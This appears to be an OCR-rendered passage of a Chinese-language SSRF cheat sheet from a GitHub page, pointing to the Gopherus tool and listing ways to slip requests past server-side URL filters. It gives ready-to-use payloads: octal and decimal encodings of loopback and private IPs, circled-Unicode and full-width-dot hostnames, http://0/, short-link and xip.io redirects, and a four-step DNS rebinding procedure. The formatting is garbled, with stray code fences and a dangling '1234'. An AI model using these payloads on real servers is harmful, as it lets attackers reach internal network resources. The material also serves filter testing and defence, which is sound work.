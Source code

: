   利用工具同上
   [Gopherus](https://github.com/tarunkant/Gopherus)

  #### 绕过方式

  ##### 进制转换

  ```
    ```php
    http://127.0.0.1  >>>  http://0177.0.0.1/
    http://127.0.0.1  >>>  http://2130706433/
    http://192.168.0.1  >>>  http://3232235521/
    http://192.168.1.1  >>>  http://3232235777/
  ```

  ```
  ##### 特殊字体绕过
  
  ```

    ```php
  ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
  ①②⑦.⓿.⓿.①  >>> 127.0.0.1
    ```

  ```
  ##### 特殊地址绕过
  
  ```

    ```php
  http://0/  # 0.0.0.0可以直接访问到本地
  http://127。0。0。1  # 绕过后端正则规则
  http://localhost/
    ```

  ```
  ##### 短链接绕过
  
  ```

    短链接变换通过检索短网址上的数据库链接，再跳转原（长）链接访问

  ```
  [短链接变换推荐链接](https://www.985.so/)
  
  ##### xip.io
  
  ```

    http://www.127.0.0.1.xip.io

  ```
  ##### DNS重绑定
  攻击流程为：
  ```

    1.服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
    2.对于获得的IP进行判断，发现为指定范围IP，则通过验证
    3.接下来服务器端对URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址
    4.由于已经绕过验证，所以服务器端返回访问内网资源的内容
  1234

